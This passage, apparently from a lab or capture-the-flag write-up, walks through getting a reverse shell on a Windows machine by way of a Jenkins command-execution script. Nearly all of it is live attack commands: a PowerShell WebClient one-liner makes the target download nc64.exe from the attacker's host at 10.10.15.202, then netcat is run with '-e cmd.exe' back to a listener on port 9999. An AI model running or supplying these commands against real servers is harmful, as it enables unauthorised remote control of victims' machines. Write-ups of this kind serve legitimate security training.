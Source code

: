 #### 5.1. Download and setup Netcat for Windows
```
# wget -q https://eternallybored.org/misc/netcat/netcat-win32-1.11.zip
# unzip netcat-win32*.zip && rm netcat-win32*.zip && mv netcat-* netcat-win
# python -m SimpleHTTPServer 8888
```


#### 5.2. Deployment
```
# cmd="echo IEX(New-Object Net.WebClient).DownloadFile('http://10.10.15.202:8888/netcat-win/nc64.exe', 'nc64.exe') | powershell -noprofile -"
# python jenkins_cmd.py $url "$cmd"
```


#### 5.3. Listener and reverse shell
```
# nc -lnvp 9999
# python jenkins_cmd.py $url 'nc64.exe -nd 10.10.15.202 9999 -e cmd.exe'
```
